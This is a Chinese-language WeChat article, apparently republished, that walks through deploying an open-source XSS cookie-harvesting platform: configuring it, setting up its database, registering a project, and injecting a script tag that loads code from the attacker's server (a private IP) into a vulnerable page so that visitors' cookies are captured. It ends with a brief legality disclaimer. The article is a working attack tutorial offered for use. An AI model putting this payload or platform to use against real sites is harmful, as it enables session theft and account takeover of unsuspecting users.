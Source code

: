 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/BeTEMmTX93w4B3jThDZgYA)

男孩子要娶，就要娶一见你就笑的女生，女孩子要嫁就要嫁能让你笑的男生。。。

----  网易云热评

一、下载平台源码、拷贝到我们网站的根目录

https://github.com/anwilx/xss_platform

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNN9Z5wVolZ2hSK1yTcEibroefAib3dTgGzoIOPyeJ6q683GMp4OUEobrww/640?wx_fmt=png)

二、修改相关参数

1、config.php，数据库用户、密码、还有 xss 平台的访问路径

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNYHewK0f8aTgSMqibGl23q2buFy8IJicgTQcBrBzLLsUjKvs8JakdycOw/640?wx_fmt=png)

2、导入 sql 文件，测试的时候没法导入，所以就手动创建了数据库

新建数据库

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNia7pbFT72PN5ibiaIPfhPj3AS85gIQPhNAXicPkfCMV08dJDolRwb37lRQ/640?wx_fmt=png)

打开 xssplatform.sql，将里面的 sql 语句执行一遍

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNYABpPEVnOx4ZLRpupLCFbnC3IzicRzUYdW8ytcGj4fqUz0r0a0LZDtg/640?wx_fmt=png)

3、更新站点域名，将作者的域名替换，一共有四处

将 module 模块里 "http://xsser.me" 替换为 "http://www.aiyouxss.com/xss");

4、修改 authtest 文件

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNW50d4OYcsYMEgUcZSYhP5icMXTXypXecdrQeJmfOpqWchcpIFfZ9jew/640?wx_fmt=png)

三、平台利用

1、注册一个账户

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNN4eHk6ezvkUxzX5TgJCXVZ0IWmL7gzedE5M6xWibeV2oAjoxrjTXIwaQ/640?wx_fmt=png)

2、创建一个项目

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNQf3H9UJ6IslWac30evt7l2FAYnLmYmpEIj5aNoNVcnkIiacLtWICjAw/640?wx_fmt=png)

3、配置相关信息，根据需要，添加模块

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNTT8wc8aGCdE5ygYRjicibwfeJVguHrNC5CgaTDWl961b25IatM8dR8DA/640?wx_fmt=png)

4、复制 script 里面代码，插入到存在 xss 漏洞的页面

```
<script src=http://192.168.139.129/xss/E3vbsa></script>
```

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNpoWHzCqgjYDSv4pzVsJiamz2RERXI6vxEMk1dExMt4sMichnmaCmwPBg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNv97lVibPicsC5p2AicnkZpM7odk1RJPrMJGeRia5WnnjOibQGLicWCiaMolibg/640?wx_fmt=png)

5、打开 xss 平台，已获取对方 cookie

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNGWSCISYib4Gk6kFMa57jIYz9MQLJ3nrkBSrq62SuL0oU4rgl9Aic1iaLg/640?wx_fmt=png)

禁止非法，后果自负

欢迎关注公众号：web 安全工具库

欢迎关注视频号：之乎者也吧

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNKCZ5krPUibzr6HYoggWkOwDcjlW6MF42UzA6r7A4754D2ibTdcnQCWrw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNGAImKv7tJTpZfxPFyCE2ZynOTHYib4yRRKnIW83t8co8UMGbZ1QRuXw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3Uibvib6DcdzzGPiaLBe20t34tNNwAhCVPNnvqBnicoZHyfsMo0t9LwqP2cOoXISOwxgiahem2ib76nTy8gRg/640?wx_fmt=jpeg)